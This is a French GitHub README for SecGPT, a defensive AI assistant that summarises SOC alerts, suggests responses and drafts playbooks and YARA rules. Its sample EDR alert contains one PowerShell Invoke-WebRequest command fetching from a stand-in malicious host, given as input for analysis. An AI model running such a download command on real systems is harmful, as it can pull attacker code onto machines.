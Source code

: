 
![image](secgpt.png)


# 🧠 SecGPT – Assistant IA pour analystes SOC

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.8+-blue.svg?style=for-the-badge&logo=python&logoColor=white" alt="Python 3.8+"/>
  <img src="https://img.shields.io/badge/LLM-OpenAI_&_Ollama-green.svg?style=for-the-badge&logo=openai&logoColor=white" alt="LLM"/>
  <img src="https://img.shields.io/badge/License-MIT-green.svg?style=for-the-badge" alt="License: MIT"/>
</p>

<p align="center">
  <b>Assistant IA conçu pour les analystes de sécurité SOC</b><br>
  <sub>🔍 Résumé d'alertes | 🛡️ Réponse aux incidents | 📋 Playbooks | 🧬 Règles YARA</sub>
</p>

---

## 📋 Description

**SecGPT** est un assistant IA pour les analystes SOC qui permet d'automatiser l'analyse initiale des alertes de sécurité. Il peut rapidement résumer des alertes complexes, suggérer des réponses appropriées, générer des playbooks et même proposer des règles YARA pour la détection.

> ⚠️ **Note importante** : Cet outil est conçu pour assister les analystes de sécurité, non pour les remplacer. Les recommandations générées doivent être examinées par un professionnel avant d'être appliquées.

### 🔍 Fonctionnalités principales

- 📄 **Résume des alertes** issues de différentes sources (EDR, mail de phishing, logs, etc.)
- 🔧 **Suggestion de réponses** adaptées au contexte de l'alerte
- ⚙️ **Génération de playbooks SOC** pour standardiser les procédures de réponse
- 🧬 **Création de règles YARA** de base pour la détection de menaces similaires
- 🧠 **Support de différents LLM** : GPT-4 (API OpenAI) ou modèles locaux via Ollama

## ⚙️ Installation

```bash
# Cloner le dépôt
git clone https://github.com/servais1983/SecGPT.git
cd SecGPT

# Installer les dépendances
pip install -r requirements.txt

# Configurer les variables d'environnement
cp .env.example .env
# Éditer .env avec votre clé API OpenAI ou configurez pour utiliser Ollama localement
```

## 🛠️ Utilisation

### Interface en ligne de commande

```bash
# Analyse d'une alerte à partir d'un fichier texte
python secgpt.py --input examples/alert.txt
```

### Interface web (Gradio)

```bash
# Lancer l'interface web
python ui/webapp.py
```

L'interface web sera accessible à l'adresse http://localhost:7860 par défaut.

## 💡 Exemples d'analyse

### Alerte JSON d'EDR

```json
{"timestamp":"2024-05-12T15:44:01Z","user":"jdoe","command":"powershell Invoke-WebRequest http://malicious.com","process":"powershell.exe"}
```

### Résultats générés

- **Résumé** : Analyse concise de l'alerte en langage clair
- **Réponse recommandée** : Actions à entreprendre immédiatement
- **Playbook** : Procédure étape par étape pour traiter l'incident
- **Règle YARA** : Détection de patterns similaires à l'avenir

## 🗂️ Structure du projet

```
secgpt/
├── app/              # Logique principale
│   ├── core.py       # Coordination des analyses IA
│   ├── models.py     # Connecteurs LLM (OpenAI, Ollama)
│   └── templates.py  # Prompts de base pour les LLM
├── ui/               # Interfaces utilisateur
│   └── webapp.py     # Interface web Gradio
├── examples/         # Exemples d'alertes pour tests
│   └── alert.txt     # Exemple d'alerte JSON
├── secgpt.py         # Interface CLI
├── requirements.txt  # Dépendances Python
├── .env.example      # Configuration (clés API, etc.)
└── README.md         # Documentation
```

## 🔄 Modes LLM supportés

Le projet supporte deux modes d'utilisation des LLM :

1. **OpenAI (GPT-4)** - Performances optimales mais nécessite une clé API et un coût d'utilisation
   - Configuration : `LLM_MODE=openai` dans .env
   - Nécessite : `OPENAI_API_KEY=sk-your-key-here`

2. **Ollama (local)** - Fonctionne entièrement en local, sans coût, mais performances réduites
   - Configuration : `LLM_MODE=ollama` dans .env (défaut)
   - Nécessite : [Ollama](https://ollama.ai/) installé localement avec au moins un modèle (llama2 par défaut)

## 📈 Fonctionnalités à venir

- [ ] Support pour d'autres modèles LLM (Claude, Gemini, etc.)
- [ ] Enrichissement contextuel des alertes (IOCs, réputation, etc.)
- [ ] Intégration MITRE ATT&CK pour classification des menaces
- [ ] Génération de rapports détaillés en format PDF
- [ ] API REST pour intégration à d'autres systèmes SOC
- [ ] Historisation et comparaison des alertes similaires

## 🤝 Contribuer

Les contributions sont les bienvenues ! N'hésitez pas à ouvrir une issue ou à soumettre une pull request.

## 📄 Licence

Ce projet est sous licence MIT - voir le fichier LICENSE pour plus de détails.

---

<p align="center">
  <sub>🔐 Développé pour aider les analystes SOC à traiter les alertes plus efficacement</sub>
</p>
